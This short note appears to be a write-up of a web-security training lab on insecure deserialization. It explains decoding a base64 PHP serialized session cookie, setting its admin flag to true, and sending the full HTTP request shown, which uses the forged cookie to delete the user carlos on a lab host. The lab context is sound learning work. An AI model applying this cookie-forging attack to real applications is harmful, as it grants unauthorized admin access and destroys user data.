 # Modifying serialized objects

Login using wiener:peter creds. Cookie is being set, decoding it from base64 give a php serialized
object. Change admin capabilities from 0 to 1, then visit /admin with that cookie (win!)

```
GET /admin/delete?username=carlos HTTP/1.1
Host: 0a970095033cd318c0b9297b0072002d.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO307
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a970095033cd318c0b9297b0072002d.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```


